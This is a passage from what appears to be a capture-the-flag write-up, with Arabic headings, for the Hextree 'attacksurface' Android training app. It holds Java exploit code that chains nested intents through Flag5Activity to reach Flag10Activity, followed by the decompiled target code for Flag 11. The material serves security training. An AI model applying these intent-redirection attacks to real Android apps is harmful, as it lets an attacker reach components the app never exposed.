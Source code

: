 ```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag10Activity"));  
intent3.putExtra("reason","next");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  
intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
startActivity(intent);  
finish();
```

### Flag 11

#### تحليل الكود

```java
  public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        if (getIntent().getAction() == null) {
            Toast.makeText(this, "Sending implicit intent to\nio.hextree.attacksurface.ATTACK_ME", 1).show();
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            try {
                startActivityForResult(intent, 42);
            } catch (RuntimeException e) {
                e.printStackTrace();
                Toast.makeText(this, "No app found to handle the intent\nio.hextree.attacksurface.ATTACK_ME", 1).show();
                finish();
            }
        }
    }
    public void onActivityResult(int i, int i2, Intent intent) {
        if (intent != null && intent.getIntExtra("token", -1) == 1094795585) {
            this.f.addTag(1094795585);
            success(this);
        }
        super.onActivityResult(i, i2, intent);
    }
```
